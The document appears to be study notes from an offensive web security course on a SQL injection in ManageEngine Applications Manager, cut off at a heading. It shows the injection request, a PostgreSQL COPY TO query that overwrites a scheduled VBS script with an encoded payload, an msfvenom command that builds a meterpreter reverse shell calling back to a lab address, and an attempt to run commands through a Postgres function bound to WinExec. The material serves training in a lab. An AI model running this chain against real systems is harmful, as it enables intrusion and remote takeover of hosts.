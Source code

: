 ```HTTP
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+ HTTP/1.0
Host: manageengine:8443
```
## Reverse Shell
* One of the possible attacks is to overwrite an existing _batch_ file that is used by the ManageEngine application. The idea is that we can insert our malicious commands into a batch file that will get executed by the ManageEngine application.
* A more elegant way would be to introduce malicious code into the VBS files that are used by the ManageEngine application during normal operation.
* `C:\Program\ Files\ (x86)\ManageEngine\AppManager12\working\conf\application\scripts`
* run the Sysinternals Process Monitor[1](https://portal.offsec.com/courses/web-300-687/learning/manageengine-applications-manager-amuserresourcessyncservlet-sql-injection-rce-10582/accessing-the-file-system-10613/reverse-shell-via-copy-to-10797#fn-local_id_103-1) tool with a _VBS_ path filter on our target host, we can see that one of the files that is executed on a regular basis is wmiget.vbs
![[57b2030e430d9e185c47f350b002c5f0-procmon.png]]
* Generate a meterpreter reverse shell payload and insert it at the end of the file
1. We need to make a backup copy of the target file as we will need to restore it once we are done with this attack vector.
2. We have to convert the content of the target file to a one-liner and make sure it is still executing properly before appending our payload. This is because _COPY\ TO_ can't handle newline control characters in a single _SELECT_ statement.
3. Our payload must also be on a single line for the same reason as stated above.
4. We have to encode our payload twice in the GET request. We need to use _base64_ encoding to avoid any issues with restricted characters within the _COPY TO_ function and we also need to _urlencode_ the payload so that nothing gets mangled by the web server itself. Finally, we need to use the _convert_from_ function to convert the output of the decode function to a human-readable format. The general query that we will use for the injection looks like this:
```PSQL
copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```
```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```
### Alternate Execution Methods - PSQL Extensions

An extension can be loaded in the following way:
```PSQL
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
```
* The compiled extension we want to load must define an appropriate Postgres structure (magic block) to ensure that a dynamic library is not loaded into an incompatible server:
```PSQL
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');
ERROR:  incompatible library "c:\Windows\System32\kernel32.dll": missing magic block
HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.

********** Error **********
```
Sample code for an extension 
